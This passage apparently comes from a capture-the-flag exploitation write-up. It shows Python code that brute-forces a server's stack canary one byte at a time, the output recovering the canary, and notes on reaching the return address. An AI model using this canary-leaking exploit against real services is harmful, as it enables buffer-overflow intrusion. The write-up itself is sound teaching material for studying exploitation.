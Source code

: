 ```python
    return res

def leak_next_byte(prefix):
    for test_byte in [chr(t) for t in range(256)]:
        if send_payload(prefix + test_byte):
            print "Found:", hex(ord(test_byte))
            return prefix + test_byte


def main():
    payload = "davide"
    payload += "B" * (1032 - len(payload))

    leak_next_byte(payload)

if __name__ == "__main__":
    main()
```

We have a small function that sends a payload and reports if the payload is good (by checking if the server returned the "Username found!" message). If the server fails - no message will be sent back and we would know that we have broken the stack canary.<br>
We use `leak_next_byte` to leak the next 8 bytes from the stack:

```python
def leak_canary(prefix):
    payload = prefix
    for i in range(8):
        payload = leak_next_byte(payload)
    return payload[-8:]
```

```
$ python exploit.py 
Found: 0xd
Found: 0xcc
Found: 0x75
Found: 0xf0
Found: 0x95
Found: 0xff
Found: 0x6c
Found: 0xcb
Canary:
0xcb6cff95f075cc0dL
```

Note: the canary we display is the canary after XORed with `0xd`. This is because our byte that we test are XORed and then placed to the canary.

### What's past the canary?
After the canary there's the old frame pointer. Which usually we find it insignificant because we want to go straight ahead to override the return address which located right after it.
